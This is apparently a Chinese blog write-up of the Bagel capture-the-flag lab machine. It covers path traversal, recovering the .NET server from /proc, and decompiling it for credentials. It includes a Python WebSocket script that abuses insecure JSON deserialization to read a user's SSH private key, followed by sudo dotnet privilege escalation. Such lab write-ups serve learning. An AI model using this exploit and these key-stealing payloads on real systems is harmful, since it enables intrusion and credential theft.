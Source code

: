 # Bagel

今天我开始了《Red Team Development and Operations A Practical Guide》的学习，保持学习，后面差不多到时机后就学CRTOⅡ

---

Bagel 是一款中等难度的 Linux 机器，其特点是电子商店容易受到路径遍历攻击，通过该攻击可以获取应用程序的源代码。然后，该漏洞用于下载“.NET”WebSocket服务器，该服务器一旦反汇编就会显示纯文本凭据。进一步的分析揭示了一个不安全的反序列化漏洞，该漏洞被用于读取任意文件，包括用户的私钥“SSH”。使用密钥在计算机上获取立足点，之前发现的密码用于透视到另一个用户，该用户可以使用具有“root”权限的“dotnet”工具。此错误配置用于执行恶意的“.NET”应用程序，从而导致权限完全升级。

---

## 外部信息收集

### 端口扫描

循例nmap

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/391f2e4f-16c4-132e-b8aa-bc0b1300e163.png)

### Web枚举

#### 8000

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/e9dd5b93-310e-f8d1-f1c8-4c271931d5b2.png)

发现这里存在任意文件读取

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/53d0e652-55b7-9c29-56fc-2b0a4c155f2b.png)

我们可以读取到app.py

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/d97c452b-b6e1-717b-f701-5ec098b0773c.png)

	don't forget to run the order app first with "dotnet <path to .dll>" command. Use your ssh key to access the machine.

这句话向我们提供的信息，我想5000端口就是这个程序

虽然也不是第一次遇到任意文件读取去读/proc下的东西，但是这一台靶机彻底的加深了我的印象

由于它在命令行运行dll的时候需要指定dll文件的路径，所以我们可以通过爆破pid来读取/proc/pid/cmdline，找到那个dll路径，再通过任意文件读取去下载它，然后对dll进行一个反编译

生成数字字典

```bash
for i in {1..1000};do echo $i >> ./nums.txt;done
```

ffuf

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/6b2bc8ae-4e8a-21e1-1aaf-0490b1a31d87.png)

我在pid 933发现了它

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/ed7a389c-c122-6743-4b7a-ff672d62b33b.png)

	/opt/bagel/bin/Debug/net6.0/bagel.dll

curl下下来

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/679c17f5-ee5c-f819-df33-b3ab62b29030.png)

## Foothold

MessageReceived函数将我们发送的json字符串反序列化后，进行了一次序列化，然后返回给客户端。

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/d786c460-a87f-1b2f-fa01-07eb3d480504.png)

跟踪到Handler，序列化和反序列化函数都使用type 4

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/837a37c3-0ddf-e7d6-3426-41100474fbaf.png)

当类型值为4时，将允许处理程序从序列化数据中推断正确的类型。同时为了能够利用它，我们还能够看到result被指定为Object，否则的话可能会由于类型不一致导致报错。

```csharp
object result;
...
```

在看另一个类File

```csharp
	public class File
	{
		// Token: 0x17000007 RID: 7
		// (get) Token: 0x0600001C RID: 28 RVA: 0x00002400 File Offset: 0x00000600
		// (set) Token: 0x0600001B RID: 27 RVA: 0x000023DD File Offset: 0x000005DD
		public string ReadFile
		{
			get
			{
				return this.file_content;
			}
			set
			{
				this.filename = value;
				this.ReadContent(this.directory + this.filename);
			}
		}

		// Token: 0x0600001D RID: 29 RVA: 0x00002418 File Offset: 0x00000618
		public void ReadContent(string path)
		{
			try
			{
				IEnumerable<string> values = File.ReadLines(path, Encoding.UTF8);
				this.file_content += string.Join("\n", values);
			}
			catch (Exception ex)
			{
				this.file_content = "Order not found!";
			}
		}
```

我们能够利用ReadFile属性来进行任意文件读取，原因是当进行反序列化时我们将能够设置ReadFile属性，即设置filename字段，并触发ReadContent()，此时我们还无法获取到文件内容，当再进行一次序列化时，file_content字段这些数据就会被带出来。

```python3
import websocket,json


ws = websocket.WebSocket()
ws.connect("ws://bagel.htb:5000/") # connect to order app
order = {"RemoveOrder":{"$type": "bagel_server.File, bagel",
"ReadFile":"../../../../home/phil/.ssh/id_rsa"}}
data = str(json.dumps(order))
ws.send(data)
result = ws.recv()
print(result)
```

我们还需要将ReadOrder改为RemoveOrder，这样我们就能不触发ReadOrder过滤../的ReadFile，而是直接执行由我们指定的ReadFile函数了

运行exp我们能够得到phil的ssh私钥

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/ccf11720-2ed7-8f00-461a-b65f63be932e.png)

登录ssh

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/8dd63e9b-e545-382a-8c16-d874ea84ce45.png)

## 本地横向移动 -> developer

前面在DB类里面发现了一组凭据，但遗憾的是developer不能使用密码登录ssh

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/e972ea5d-47fe-f89a-00c3-a5329953253b.png)

不过我们现在立足后可以在内部使用su

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/341227ad-d2bd-23e8-0b08-d332a7113625.png)

## 本地权限提升

sudo -l

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/88e97299-d1eb-a9ed-37bc-b1e1709f40b1.png)

轻松的提权

先把bagel的project复制到tmp

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/5b38f388-bdf1-e09a-5a23-799388ed15ee.png)

vim改Program.cs，我这里选择读root flag

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/5b57a21b-4e66-c7bc-d704-9bdbdc3bc0a9.png)

sudo dotnet run，我们将得到它

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/5def971c-eda8-90b5-e8db-b8f26f8e8880.png)
